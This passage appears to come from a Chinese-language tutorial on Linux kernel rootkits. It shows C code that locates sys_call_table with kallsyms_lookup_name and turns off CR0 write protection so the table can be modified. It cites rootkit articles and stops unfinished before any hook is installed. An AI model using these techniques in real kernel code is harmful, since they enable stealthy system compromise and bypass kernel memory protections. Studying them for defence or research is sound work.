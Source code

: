 ##### 方法五

使用 `kallsyms_lookup_name`

```c
#include <linux/kallsyms.h>

static void **sys_call_table;

static int __init hook_init (void) {
    sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
    printk(KERN_INFO "sys_call_table = 0x%px\n", sys_call_table);
    return 0;
}
```

??? info "printk a pointer[^6]"
    要用 printk 印出 pointer 可以用 `%px`  
    `%p` 只會印出該指標的雜湊值而不是真正的指標的值，這是為了避免洩漏內核位址

#### 讓 `sys_call_table` 可以寫入

因為 `sys_call_table` 是唯讀的，所以我們透過修改 [`cr0`](https://en.wikipedia.org/wiki/Control_register#CR0) 來關閉寫入保護

```c
void writable_unlock (void) {
    write_cr0(read_cr0() & (~X86_CR0_WP));
}

void writable_lock (void) {
    write_cr0(read_cr0() | X86_CR0_WP);
}
```

==**未完待續**==

[^1]:
	http://fluxius.handgrep.se/2011/10/31/the-magic-of-ld_preload-for-userland-rootkits/
[^2]:
    https://exploit.ph/linux-kernel-hacking/2014/10/23/rootkit-for-hiding-files/
[^3]:
    https://docs-conquer-the-universe.readthedocs.io/zh_CN/latest/gnu_linux.html
[^4]:
    https://www.kernel.org/doc/Documentation/printk-formats.txt
[^5]:
    https://blog.trailofbits.com/2019/01/17/how-to-write-a-rootkit-without-really-trying/
